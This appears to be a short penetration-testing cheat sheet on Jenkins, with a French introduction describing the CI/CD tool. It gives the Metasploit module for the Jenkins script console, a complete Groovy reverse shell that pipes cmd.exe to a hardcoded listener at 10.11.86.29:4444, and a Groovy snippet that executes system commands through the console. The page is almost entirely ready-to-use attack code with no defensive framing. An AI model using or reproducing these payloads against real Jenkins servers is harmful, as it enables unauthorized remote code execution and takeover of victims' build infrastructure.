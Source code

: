 # Jenkins

Utilisé pour créer des pipelines d'intégration continue/de développement continu (CI/CD) qui permettent aux développeurs de déployer automatiquement leur code une fois qu'ils y ont apporté des modifications.

Exploitation using Metasploit Framework

```sh
use exploit/multi/http/jenkins_script_console
```

Exploiting Manually ( Groovy Revershell)

```sh
String host="10.11.86.29";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Executing Shell Commands Directly

```sh
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```